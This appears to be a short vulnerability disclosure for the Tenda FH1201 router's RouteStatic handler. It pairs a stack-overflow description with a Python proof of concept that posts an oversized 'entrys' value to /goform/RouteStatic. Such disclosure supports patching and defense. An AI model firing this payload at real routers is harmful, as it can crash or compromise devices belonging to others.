


# RouteStatic

Firmware download website:https://www.tendacn.com/download/detail-3322.html

### Vulnerability details

Tenda FH1201 v1.2.0.14 has a stack overflow vulnerability located in the RouteStatic function.Without checking the length of the parameter var, it was assigned to stackspace v6




### poc

```python
import requests

ip = '192.168.74.145'

url = f"http://{ip}/goform/RouteStatic"

data = {"entrys": "a"*999}

ret = requests.post(url, data)
```



